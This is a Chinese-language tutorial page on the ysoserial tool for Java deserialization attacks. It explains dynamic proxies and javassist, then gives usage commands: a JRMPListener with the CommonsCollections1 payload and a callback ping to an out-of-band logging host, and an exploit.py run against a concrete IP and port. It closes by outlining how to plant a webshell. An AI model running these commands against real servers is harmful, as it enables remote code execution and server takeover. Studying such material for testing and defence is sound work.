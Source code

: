 ```yaml
---
description: 这个工具你要说是听都没听过，你可就out了
---
```


# Ysoserial

        ysoserial这个工具真是写的出奇的好，它是基于上一篇反序列化漏洞挖掘思路来生成序列化payload数据的工具。

        其中针对Apache Commons Collections 3的payload也是基于`TransformedMap`和`InvokerTransformer`来构造的，然而在触发时，并没有采用上文介绍的`AnnotationInvocationHandler`，而是使用了`java.lang.reflect.Proxy`中的相关代码来实现触发。此处不再做深入分析，有兴趣的读者可以参考下面的链接获取及编译ysoserial的源码。

* 相关Tool链接
  * [https://github.com/frohoff/ysoserial](https://github.com/frohoff/ysoserial)
  * [https://github.com/CaledoniaProject/jenkins-cli-exploit](https://github.com/CaledoniaProject/jenkins-cli-exploit)
  * [https://github.com/foxglovesec/JavaUnserializeExploits](https://github.com/foxglovesec/JavaUnserializeExploits)

## 关键技术

### 动态代理

动态代理比较常见的用处就是：**在不修改类的源码的情况下,通过代理的方式为类的方法提供更多的功能。**

举个例子来说（这个例子在开发中很常见）：我们的开发实现了业务部分的所有代码，忽然我期望在这些业务代码中多添加日志记录功能的时候，一个一个类去添加代码就会非常麻烦，这个时候我们就能通过动态代理的方式对期待添加日志的类进行代理。

看一个简单的demo：

Work接口需要实现work函数

```java
public interface Work {
    public String work();
}
```

Teacher类实现了Work接口

```java
public class Teacher implements Work{
    @Override
    public String work() {
        System.out.println("my work is teach students");
        return "Teacher";
    }
}
```

WorkHandler用来处理被代理对象，它必须继承InvocationHandler接口，并实现invoke方法

```java
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
public class WorkHandler implements InvocationHandler{
    //代理类中的真实对象
    private Object obj;
    //构造函数，给我们的真实对象赋值
    public WorkHandler(Object obj) {
        this.obj = obj;
    }
    @Override
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        //在真实的对象执行之前我们可以添加自己的操作
        System.out.println("before invoke。。。");
        //java的反射功能，用来调用obj对象的method方法，传入参数为args
        Object invoke = method.invoke(obj, args);
        //在真实的对象执行之后我们可以添加自己的操作
        System.out.println("after invoke。。。");
        return invoke;
    }
}
```

在Test类中通过Proxy.newProxyInstance进行动态代理，这样当我们调用代理对象proxy对象的work方法的时候，**实际上调用的是WorkHandler的invoke方法**。

```java
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
public class Test {
    public static void main(String[] args) {
        //要代理的真实对象
        Work people = new Teacher();
        //代理对象的调用处理程序，我们将要代理的真实对象传入代理对象的调用处理的构造函数中，最终代理对象的调用处理程序会调用真实对象的方法
        InvocationHandler handler = new WorkHandler(people);
        /**
         * 通过Proxy类的newProxyInstance方法创建代理对象，我们来看下方法中的参数
         * 第一个参数：people.getClass().getClassLoader()，使用handler对象的classloader对象来加载我们的代理对象
         * 第二个参数：people.getClass().getInterfaces()，这里为代理类提供的接口是真实对象实现的接口，这样代理对象就能像真实对象一样调用接口中的所有方法
         * 第三个参数：handler，我们将代理对象关联到上面的InvocationHandler对象上
         */
        Work proxy = (Work)Proxy.newProxyInstance(handler.getClass().getClassLoader(), people.getClass().getInterfaces(), handler);
        System.out.println(proxy.work());
    }
}
```

看一下输出结果，我们再没有改变Teacher类的前提下通过代理Work接口，实现了work函数调用的重写。

```java
before invoke。。。
my work is teach students
after invoke。。。
Teacher
```

### javassist动态编程

ysoserial中基本上所有的恶意object都是通过动态编程的方式生成的，通过这种方式我们可以直接对已经存在的java文件字节码进行操作，也可以在内存中动态生成Java代码，动态编译执行，关于这样做的好处，作者在工具中也有提到：

{% hint style="success" %}
could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
{% endhint %}

关于javassist动态编程，我就只把关键的函数及其功能罗列一下了

```java
//获取默认类池，只有在这个ClassPool里面已经加载的类，才能使用
ClassPool pool = ClassPool.getDefault();
//获取pool中的某个类
CtClass cc = pool.get("test.Teacher");
//为cc类设置父类
cc.setSuperclass(pool.get("test.People"));
//将动态生成类的class文件存储到path路径下
cc.writeFile(path);
//获取类的字节码
byte[] b=cc.toBytecode();
//创造Point类
CtClass cc = pool.makeClass("Point");
//为cc类添加成员变量
cc.addField(f);
//为cc类添加方法
cc.addMethod(m);
//为cc类设置类名
cc.setName("Pair");
```

## 使用方式

### 0x01 基本使用方法

**在公网vps上执行:**

```text
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [port] CommonsCollections1 '[commands]'
```

port:公网vps上监听的端口号  
commands:需要执行的命令  
例子：

```java
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'ping -c 2 rce.267hqw.ceye.io'
```

**重启一个shell窗口：**

```text
python exploit.py 【目标ip】 【目标端口】 ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 【JRMPListener ip】  【JRMPListener port】 JRMPClient
```

列子：

```text
python exploit.py 118.89.53.139  7001 ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 118.89.53.139  1099 JRMPClient
```

### 0x02 在ysoserial编写自己的payload

发现的新的调用链之后，编写的新的payload作为补充。

### 0x03 在burp中集成插件使用

有关在burp中的使用，请参考我的博客：[使用Burp插件Java-Deserialization-Scanner检测java反序列化漏洞](https://bleke.top/articles/2020/05/14/1589443660291.html)

## 总结

### 漏洞分析

* 引发：如果Java应用对用户输入，即不可信数据做了反序列化处理，那么攻击者可以通过构造恶意输入，让反序列化产生非预期的对象，非预期的对象在产生过程中就有可能带来任意代码执行。 
* 原因：类ObjectInputStream在反序列化时，没有对生成的对象的输入做限制，使攻击者利用反射调用函数进行任意命令执行。
  * CommonsCollections组件中对于集合的操作存在可以进行反射调用的方法 
* 根源：Apache Commons Collections允许链式的任意的类函数反射调用 
  * 问题函数：org.apache.commons.collections.Transformer接口
* 利用：要利用Java反序列化漏洞，需要在进行反序列化的地方传入攻击者的序列化代码。
* 思路：攻击者通过允许Java序列化协议的端口，把序列化的攻击代码上传到服务器上，再由Apache Commons Collections里的TransformedMap来执行。 

### 漏洞利用        

至于如何使用这个漏洞对系统发起攻击，举一个简单的思路，通过本地java程序将一个带有后门漏洞的jsp（一般来说这个jsp里的代码会是文件上传和网页版的SHELL）序列化， 将序列化后的二进制流发送给有这个漏洞的服务器，服务器会反序列化该数据的并生成一个webshell文件，然后就可以直接访问这个生成的webshell文件进行进一步利用。

## 参考文献

* Java反序列化漏洞分析：[https://www.cnblogs.com/ssooking/p/5875215.html](https://www.cnblogs.com/ssooking/p/5875215.html)
* 反序列化工具ysoserial使用介绍：[http://www.mamicode.com/info-detail-2407213.html](http://www.mamicode.com/info-detail-2407213.html)
* 玩转Ysoserial-CommonsCollection的七种利用方式分析：[https://www.freebuf.com/articles/web/214096.html](https://www.freebuf.com/articles/web/214096.html)



